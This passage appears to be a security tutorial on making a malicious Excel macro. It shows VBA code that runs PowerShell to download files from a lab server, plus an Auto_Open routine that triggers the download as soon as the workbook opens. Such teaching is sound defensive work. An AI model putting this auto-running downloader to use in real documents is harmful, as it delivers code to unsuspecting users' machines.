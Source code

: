 ![](https://lh3.googleusercontent.com/hHJ7ZMAnyyJdTwF_WCahV_SW1iIkqz2u-Gza08ijh1c5vcL-zn9dMdOB2Hfzr-rr2X7jUXDZWZUUOOoztyQrtMI9bd7w00l0R7LE9SMZmu6j3Ezn5GIEDwdI0XnGxiTDMOTGM74_)  

  

Microsoft Excel with the Macro Creation Window Open

You can name your new Macro whatever you like. It’s important to know that later, the Macro name is not just an arbitrary value. It can add some additional functions, and do some special things that will help us later. After entering a name for the Macro, and clicking “Create” you should see a new window open that looks very different from Excel’s normal interface.

![](https://lh4.googleusercontent.com/YPFy-IvVMK7CBDHwrS4kbuNIsnEiQpP2sw0poDzDIR97VKDGWUlSgiH_LxVuXdyGSp4Gk0PbOJjwi9WfRPWmGi2T33qJy3LlXb3zJ0m3-LCCxgUT1b_EZLVEwfGbrhietDfrKMBg)

  

### Microsoft’s Visual Basic Macro Editor

This is Microsoft’s Visual Basic Macro Creator/Editor. This is where we will eventually create our Malicious Macro. Here, we can write visual basics to perform actions, even execute OS commands. For example, we can use:

PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://192.168.125.1/shadow -OutFile C:\\Shadow", vbNormalFocus)

This will connect out to a remote server and download the file “Shadow” and save it to the root of the file system as a file called “Shadow” (How creative).

  

![](https://lh6.googleusercontent.com/VxFdtX6PPyCsZJ7znIRXTplANVnuqmlMl8kjYOsA-S3jrUT_xLHF7gWVREo-hfuYzoECA779Wt_xY_ed-HHhOE_nhMcuLWtGGC_WMGC3XHfRmqN12Tkdsj_Gvqo9A8CA52OX1uBl)  

### A Python HTTP Server Listening with a Macro to Call Out to it  

Let's say we wanted to step it up a notch and require the user to not interact with the Macro to trigger the remote connection to the HTTP Server, is this possible? If so, how can we do it?

It turns out, the answer is “Yes, (onto the) Next Question” and “Very easily”. To make a Macro execute on the document opening, we can add a useful “Sub” called “Auto\_Open”. Upon document opening, whatever is in that Sub will be run, in this scenario, I’ll call the HelloWorld Sub upon document opening with the following code below.

  

![](https://lh3.googleusercontent.com/aXagHIvfltV9HbSV8Aj802G6mKSX9wRxqFV_J1DKkiCxFaCRCAII6XxleGZmWKMD-pHQDq1UrBhJMOxc4SX8LCEVC6mWBjbWaJ2UQbW68aU5qSkGwm-zio0xC4QtFemeIu8fSUI0)  

### Adding our malicious PowerShell code to the macro

  

Code Below:

  
```
Sub HelloWorld()

    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://192.168.125.1/passwd -OutFile C:\\passwd", vbNormalFocus)

End Sub

  

Sub Auto\_Open()

    HelloWorld

End Sub
```
  